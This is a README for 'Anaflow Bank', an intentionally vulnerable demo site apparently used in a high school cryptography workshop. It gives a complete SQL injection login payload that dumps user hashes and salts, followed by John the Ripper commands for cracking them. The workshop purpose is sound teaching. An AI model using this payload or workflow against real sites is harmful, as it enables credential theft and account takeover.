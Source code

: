 Anaflow Bank (Insecure Website)
-------------------------------

This website is a demonstration in a cryptography workshop at Independence 
High School, run by Andy Chen and Nick Hirning. It is meant to serve as a
simplified model of how password hashing and SQL injection can work. The code
creates a dummy website "Anaflow Bank" whose data can be compromised with a SQL
injection.


Get Started
-----------

As a prerequisite, make sure you have web.py (version 0.3) and SQLite 
capabilities. Begin by creating the database of user accounts:

sqlite3 BankAccount.db < create_accounts.sql

Then, to run the website, execute:

python anaflow_bank.py [optional port number, default is 8080]


Demonstration Overview
----------------------

In the demonstration, we perform an SQL injection via the login form. We set
the username to be:

' OR 1=1 UNION SELECT GROUP_CONCAT(Username || ' : ' || PasswordHash || ' : ' || Salt, '  ||  ') AS Amount FROM BankAccount WHERE '1' = '1

(The password can be any string.) This allows us to see all of the users' 
salts and password hashes, which are SHA-1 for this purpose. We then use 
John the Ripper (JTR) to expose any weak passwords. Despite each account 
having its own salt, JTR can crack salted SHA-1 hashes in a single file.
To do so, create a blank password file, and format each username/salt/hash 
combination on each line (without the brackets):

[username]:$SHA1p$[salt]$[hash]

For example:

admin:$SHA1p$*Utf&+s5$317fe16a5f409e871b21c3460a75dab8dc906767

Then, run JTR to recover some of the passwords. In the MacOS version of John 1.7.9-jumbo-7 (see http://openwall.info/wiki/john/custom-builds#Compiled-for-Mac-OS-X):

./john --format=sha1-gen [password file]

./john --show [password file] 

and in the Windows version of John 1.7.9-jumbo-7-Win-32:

john --format=sha1-gen [password file]

john --show [password file] 

Disclaimer
----------

Do NOT use this code for any application meant to be cryptographically secure.
We intentionally left this system vulnerable to attack. Major flaws include:

- SQL injection (an adversary can display the table of user accounts)
- Malfunctioning SQL queries with certain usernames (generalization of the 
	first flaw)
- SHA-1 hashing instead of slow hashing, such as bcrypt (though for large 
	user databases, this could require client-side hashing. However, an 
	attacker who has stolen the table of users and password hashes can then 
	send a hash directly to the server and successfully login.)
- Lack of security checks, mainly in the Python web.py backend
